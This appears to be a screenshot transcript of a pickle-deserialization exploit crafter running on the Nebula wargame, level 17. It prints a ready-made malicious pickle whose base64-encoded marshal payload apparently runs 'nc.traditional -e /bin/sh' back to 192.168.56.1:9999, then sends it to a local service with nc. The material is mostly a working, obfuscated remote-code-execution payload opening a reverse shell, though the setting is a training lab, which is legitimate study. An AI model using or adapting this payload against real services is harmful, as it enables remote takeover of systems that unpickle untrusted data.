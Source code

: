 ```bash
                        syyyyyyssssssyyyyyyyyyhyyyyyyy:                                             
                        hyyyyyyssssyyyyyyyyyyyyyyyyy/`                                              
                        hyyyyyyyyyyyyyyyyyyyyyyyyy/`                                                
                        oyyyyyyyyyyyyyyyyyyyyyyy/`                                                  
                         +yyyyyyyyyyyyyyyyyyys:                                                     
                          `:+syyyyyyyyyyys+:.                                                       
                              `.-://::-.                                                            
                                                                                                    
                                         
            .__.__           .__        __   .__          
  _______  _|__|  |   ______ |__| ____ |  | _|  |   ____  
_/ __ \  \/ /  |  |   \____ \|  |/ ___\|  |/ /  | _/ __ \ 
\  ___/\   /|  |  |__ |  |_> >  \  \___|    <|  |_\  ___/ 
 \___  >\_/ |__|____/ |   __/|__|\___  >__|_ \____/\___  >
     \/               |__|           \/     \/         \/ 

                         - A -
    - Pickle Deserialization Remote Code Execution - 
                  - Exploit Crafter -
     - Just provide the wanted to execute code -



                                A Supid Tool by Thesaurus 
___________________________________________________________
___________________________________________________________
[^] Do you want to encode it? ( base64 or hex,leave for unicode) :  
[*] Crafted Evil Packet: 

ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwAAAAABAAAAAgAAAEMAAABzHQAAAGQBAGQAAGwAAH0AAHwAAGoBAGQCAIMBAAFkAABTKAMAAABOaf////9zKwAAAG5jLnRyYWRpdGlvbmFsIC1lIC9iaW4vc2ggMTkyLjE2OC41Ni4xIDk5OTkoAgAAAHQCAAAAb3N0BgAAAHN5c3RlbSgBAAAAUgAAAAAoAAAAACgAAAAAcwgAAAA8c3RyaW5nPnQDAAAAZm9vAQAAAHMEAAAAAAEMAQ=='
tRtRc__builtin__
globals
(tRS''
tR(tR.

___________________________________________________________
[^] Do you want to save it? (y/n, leave to skip):  y
[^] Insert exploit name: mypickle
[*] Writing it in mypickle

__________________________Job_Done_________________________
level17@nebula:/tmp$ nc 127.0.0.1 10007 < mypickle 
Accepted connection from 127.0.0.1:49810
```
